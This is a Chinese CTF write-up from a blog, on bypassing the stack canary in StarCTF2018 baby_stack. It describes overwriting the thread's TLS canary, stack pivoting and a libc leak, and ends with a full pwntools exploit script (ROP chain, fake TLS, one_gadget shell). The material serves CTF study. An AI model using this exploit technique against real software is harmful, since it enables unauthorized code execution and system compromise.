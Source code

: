 ```yaml
---
title: 绕过Canary的其他姿势 StarCTF2018 baby_stack
date: 2020-02-20
tags:
    - bypass canary
categories:
    - Pwn//文章目录
keywords: 
    - 覆写TLS结构体
description: 
    - CTF
toc: true
---
```

作者：LordRiot
#### emmmm今天把手机摔坏导致很不爽，于是搞了好几个小时这个题，最后发现自己是个rz orz


### StarCTF2018 baby_stack
今天等修手机的时候想起昨天看到ichunqiu新春战役的BFnote里利用覆写TLS结构体bypass了canary，于是就很好奇其具体原理，查了一波发现，那一题是利用libc2.23的特殊机制覆写了main线程的TLS，然后找到另一个覆写TLS结构体的题，即是本题，不过不同的是，本题直接利用pthread_create函数，加了个线程出来，然后由于该线程的栈在其TLS结构体之上，所以可以覆写成功。


这一题是我知道原理之后纯动调做的orz，就先打个断点，康康canary的值，之后跟进，直接find canary，查到其在内存中的所有位置，发现有四处，其中一处是在main线程的TLS，两处是在新线程的栈，一处是在新线程的TLS结构，然后算出偏移，直接全部覆写成'\x00'，然后由于改了TLS（TLS结构体里本身有些随机的量，例如一些在libc上的地址什么的，第一次覆写肯定无法保持，只能全覆写成0了），所以需要栈迁移一下，就read payload到新栈，然后劫持栈到新栈即可，然后似乎是由于payload长度的关系，我一度想写'/bin/sh\x00'，然后call system来getshell，但是始终不行，动调了俩小时，毫无起色，甚至我都跟着system源码单步调试了，发现似乎是payload的某个地方的覆写导致的，然后换成了one_gadget，一梭搞定，orz，原地自闭，下面贴一下exp。（one_gadget 我直接用的本地的，是2.27的，打远程的话，第一次leak出版本再获取一样的）

```
p = process('./baby_stack')

puts_plt = 0x4006F0
read_got = 0x601FD0
puts_got = 0x601FB0
new_stack = 0x602400
init_pop = 0x400B6A
init_mov = 0x400B50

pop_rdi = 0x400b73
pop_rbp = 0x4007d8
leave = 0x4008a6

fake_canary = '\x00' * 8
first_offset = 0xB0
second_offset = 0x820

fake_TLS = p64(0x603270)
fake_TLS += p64(0)
fake_TLS += p64(1)
fake_TLS += p64(0)
fake_TLS += fake_canary

rop_chain = p64(init_pop)
rop_chain += p64(0)
rop_chain += p64(1)
rop_chain += p64(read_got)
rop_chain += p64(0)
rop_chain += p64(new_stack)
rop_chain += p64(0x400)
rop_chain += p64(init_mov)
rop_chain += '\x00' * 0x38
rop_chain += p64(pop_rbp)
rop_chain += p64(new_stack - 8)
rop_chain += p64(leave)

payload = '\x00' * 0x101b
payload += rop_chain
payload += '\x00' * (second_offset - 16 - len(rop_chain))
payload += fake_TLS

p.recvuntil('How many bytes do you want to send?')
p.send(str(len(payload)))

sleep(1)
p.send(payload)

sleep(1)
p.send('\x00' * 3)

rop_chain = p64(init_pop)
rop_chain += p64(0)
rop_chain += p64(1)
rop_chain += p64(read_got)
rop_chain += p64(0)
rop_chain += p64(new_stack + 0x400)
rop_chain += p64(0x400)
rop_chain += p64(init_mov)
rop_chain += '\x00' * 0x38
rop_chain += p64(pop_rbp)
rop_chain += p64(new_stack + 0x400 - 8)
rop_chain += p64(leave)

payload = p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += rop_chain

p.recvuntil('It\'s time to say goodbye.')
p.send(payload)

p.recvline()
puts_addr = u64(p.recv(6).ljust(8, '\x00'))
obj = LibcSearcher('puts', puts_addr)
base_addr = puts_addr - obj.dump('puts')
one_gadget = 0x4f322 + base_addr

sleep(1)
p.send(p64(one_gadget))

p.interactive()
```

本来还想水一期栈迁移和SROP的博客，但最近事情太多了，还要赶紧学堆，就先鸽了，以后有时间把return to VDSO和SROP一块写了: - )
